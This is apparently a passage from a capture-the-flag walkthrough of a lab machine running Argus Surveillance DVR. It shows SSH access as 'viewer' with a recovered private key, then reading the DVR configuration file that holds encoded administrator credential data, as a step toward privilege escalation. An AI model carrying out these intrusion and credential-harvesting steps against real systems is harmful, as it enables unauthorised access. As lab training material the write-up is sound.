 Next, we have to adjust the permissions and attempt to SSH as `viewer` to the target.

```
┌──(kali㉿kali)-[~]
└─$ chmod 600 id_rsa

┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa viewer@192.168.120.239

Microsoft Windows [Version 10.0.19042.1348]
(c) Microsoft Corporation. All rights reserved.

C:\Users\viewer>whoami
dvr4\viewer

C:\Users\viewer>
```

Success! We now have shell access on the target as viewer.

## Escalation

Let's continue to look into this Argus server. We discover the configuration file located at: **C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini**

```
C:\Users\viewer>dir "C:\ProgramData\PY_Software\Argus Surveillance DVR"
 Volume in drive C has no label.
 Volume Serial Number is 08DF-534D

 Directory of C:\ProgramData\PY_Software\Argus Surveillance DVR

02/11/2022  09:42 AM    <DIR>          .
02/11/2022  09:42 AM    <DIR>          ..
02/11/2022  09:42 AM                38 Argus Surveillance DVR.DVRSes
02/11/2022  09:42 AM             5,792 DVRParams.ini
12/03/2021  12:26 AM    <DIR>          Gallery
12/03/2021  12:24 AM    <DIR>          Images
12/03/2021  12:26 AM    <DIR>          Logs
               2 File(s)          5,830 bytes
               5 Dir(s)   5,876,322,304 bytes free

C:\Users\viewer>type "C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini"
[Main]
...                                                                               
                                                                                                            
[Users]                                                                                                     
LocalUsersCount=2                                                                                           
UserID0=434499                                                                                              
LoginName0=Administrator                                                                                    
FullName0=60CAAAFEC8753F7EE03B3B76C875EB607359F641D9BDD9BD8998AAFEEB60E03B7359E1D08998CA797359F641418D4D7BC8
75EB60C8759083E03BB740CA79C875EB603CD97359D9BDF6414D7BB740CA79F6419083                                      
FullControl0=1                                                                                              
CanClose0=1                                                                                                 
CanPlayback0=1                                                                                              
```